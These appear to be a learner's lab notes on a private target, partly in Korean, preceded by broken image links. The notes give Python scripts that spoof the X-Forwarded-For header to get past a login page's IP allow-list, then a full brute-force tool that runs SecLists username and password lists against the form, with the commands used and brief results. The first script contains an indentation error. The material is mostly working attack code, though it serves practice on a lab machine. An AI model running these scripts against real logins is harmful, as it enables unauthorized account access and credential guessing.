









# target IP 192.168.86.200



```py
import requests

url = "http://192.168.86.200/login.php"

for i in range(256):
    ip = f"10.10.10.{i}"
    headers = {"X-Forwarded-For": ip}
    response = requests.get(url=url, headers=headers)
    # 실제 나오는 응답 확인
    if "Your IP is not allowed" not in response.text:
        print(f"[-] {ip}, status: {response.status_code}")
        # 응답 본문 일부 출력
        print(response.text[:300])
    else:
        print(f"[+] {ip}, status: {response.status_code}")
         print(response.text[:300])

```



???(kali?kali)-[~]
??$ sudo python3 requests_3.py  
[+] Found working IP: 10.10.10.0

```py
import requests

url = "http://192.168.86.200/login.php"

for i in range(256):
    ip = f"10.10.10.{i}"
    headers = {"X-Forwarded-For": ip}
    response = requests.get(url=url, headers=headers)

    # 에러 메시지가 포함되어 있는지 확인
    if "not allowed" not in response.text:
        print(f"[+] Found working IP: {ip}")
        print(response.text)
        break
    else:
        print(f"[-] Blocked: {ip}", end="\r")

```



```html
<!DOCTYPE html>
<html>
  <head>
    <meta name="viewport" content="width=device-width, initial-scale=1" />
  </head>
  <body>
    <h2>Robust Employee Manager</h2>

    <form id="login-form" method="post" target="_self">
      <div class="imgcontainer">
        
      </div>
      <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" placeholder="Enter Username" name="user" required />

        <label for="psw"><br /><b>Password</b></label>
        <input
          type="password"
          placeholder="Enter Password"
          name="password"
          required
        />

        <br /><button type="submit">Login</button>
      </div>
    </form>
  </body>
</html>
```

# burpsuite proxy header setting





# Bruteforce with X-Forwarded-For




```py
# python3 bruteforce_x_forwarded_for.py --url http://192.168.86.200/login.php --xff 10.10.10.0 --usernames "usernames.txt" --passwords "passwords.txt"
import argparse
import requests


def load_lines(path):
    with open(path, "r", encoding="utf-8") as f:
        return [line.strip() for line in f if line.strip()]


def brute_force(url, xff_ip, username_file, password_file, timeout=5):
    headers = {
        "X-Forwarded-For": xff_ip,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebkit/537.36 (KHTML, like Gecko)",
    }

    try:
        usernames = load_lines(username_file)
        passwords = load_lines(password_file)
    except FileNotFoundError as e:
        print(f"not found file {e.filename}")
        return

    print(f"[+] loaded {len(usernames)}/{len(passwords)}")
    print("[+] starting bruteforce")

    for user in usernames:
        for pwd in passwords:
            data = {"username": user, "password": pwd}

            try:
                response = requests.post(
                    url=url, headers=headers, data=data, timeout=timeout
                )

                print(f"code: {response.status_code}")
                if (response.status_code) == 200:
                    print(f"found {user}/{pwd}")
            except requests.exceptions.RequestException as e:
                print(f"error: {e}")

    print("[-] bruteforce finished")


def parse_args():
    parser = argparse.ArgumentParser(description="X-Forwarded-for")

    parser.add_argument("-u", "--url", default="http://127.0.0.1/login.php")

    parser.add_argument(
        "-x", "--xff", default="10.10.10.10", help="X-Forwarded-For 에 넣을 IP"
    )

    parser.add_argument(
        "-U", "--usernames", default="usernames.txt", help="user file path"
    )

    parser.add_argument(
        "-P", "--passwords", default="password.txt", help="password file path"
    )

    parser.add_argument("-t", "--timeout", type=int, default=5, help="timeout")

    return parser.parse_args()


def main():
    args = parse_args()
    brute_force(args.url, args.xff, args.usernames, args.passwords, args.timeout)


if __name__ == "__main__":
    main()

```

> python3 bruteforce_x_forwarded_for.py --url http://192.168.86.200/login.php --xff 10.10.10.0 --usernames "/usr/share/seclists/Usernames/top-usernames-shortlist.txt --passwords" "/usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-10000.txt"

- It shows all 200 status code



- It Shows 1770 lenth
  
